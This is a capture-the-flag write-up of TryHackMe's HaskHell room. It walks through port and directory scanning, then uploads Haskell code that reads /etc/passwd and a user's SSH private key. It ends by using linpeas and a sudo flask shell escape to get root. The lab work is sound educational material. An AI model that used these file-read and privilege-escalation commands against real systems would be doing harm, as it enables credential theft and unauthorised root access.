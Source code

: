```yaml
---
title: Tryhackme - HaskHell | EN
author: batmanly
date: 2022-05-30 10:10:00 +3
categories: [Writeup, TryHackme]
tags: [web, flask, haskell, tryhackme, writeup]
render_with_liquid: false
---
```


# Information

## Room

- **Name:** HaskHell
- **Profile:** [HaskHell](https://tryhackme.com/room/haskhell)
- **Difficulty:** Medium
- **Description**: Show your professor that his PhD isn't in security.

![[]](/assets/img/tryhackme/haskhell/haskell_logo.png)

## Overview

It's a nice room , that you can use haskell and read file inside server . Privilege escalation step was easy actually that you can access root so fast .

# Write-up

Let's start enumeration and see what we can gather.

## Network enumeration

`Port` and `service` scan with nmap:

```bash
nmap -T4 -sV -sS  -v -p- 10.10.238.6  -sC -oN HaskHell
```

`Output:`

```

# Nmap 7.92 scan initiated Mon May 30 09:26:16 2022 as: nmap -n -Pn -T4 -sV -sS -v -p- -sC -oN HaskHell 10.10.238.6
Nmap scan report for 10.10.238.6
Host is up (0.084s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-title: Homepage
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: gunicorn/19.7.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

it's look we just have ssh and http open with different port , let's go and enumerate http port.

## Web enumeration

Discovering `directories` and `files` with go buster.

```
gobuster dir -u http://10.10.238.6:5001/ -w $BIG -t 50

```

Let's enumerate files and folders then:

```
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.238.6:5001/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /home/batmanly/SecLists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/05/30 09:31:01 Starting gobuster in directory enumeration mode
===============================================================
/submit               (Status: 200) [Size: 237]

===============================================================
2022/05/30 09:32:11 Finished
===============================================================
```

![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530093249.png)
We found submit directory let's go and see what's there. we realized that server is waiting our haskell file for compile and return result.
we can try to upload haskhell file and try to read file or get reverse shell , i tried get reverse shell but server givin 500 message , so after time i tried reading files it's look we have permission to read file, so lets' get to work and first read /etc/passwd and see what user we can enumerate than we will read this user ssh private key for connect to server with ssh . We can use burpsuite for that we can manipulate easily request and response.

```
http://10.10.238.6:5001/submit

```

upload this file , read_file.hs .

```haskell
import System.Process
main = do
   let file_to_read = "/etc/passwd"
   contents <- readFile file_to_read
   putStrLn contents

```

after upload file we can read passwd.
![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530095710.png)
let's go and read user's id_rsa file. we can enumeate user after start 1000 for this file.
i found that we can read prof id_rsa file .
change read_file.hs to read '/home/prof/.ssh/id_rsa' and get ssh private key.
![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530095913.png)

## Web exploitation

let's use this ssh private key to connect server.

```bash
chmod 600 haskhell
ssh prof@10.10.238.6 -i haskhell
```

![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530100047.png)

## Previlege Escalation

let's upload [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and look if we can get any previlege escalation point to root or other user.

```bash
# Run Python Server
python3 -m http.server 80

# Get Linpeas
wget http://10.8.199.191/linpeas.sh

# Run Linpeas
chmod +x linpeas.sh
./linpeas.sh

```

we found that we can run flask with sudo without password , so let's get root shell from there.
![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530101111.png)

```bash
echo 'import pty;pty.spawn("/bin/bash")' > shell.py
export FLASK_APP=shell.py
sudo /usr/bin/flask run
```

![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530101354.png)

![[]](/assets/img/tryhackme/haskhell/root.gif)

Yep. Now we Got root.
Thanks for reading until the end , if you have any feedback i will appreciate to get , knowing different ways to get root always good for me.
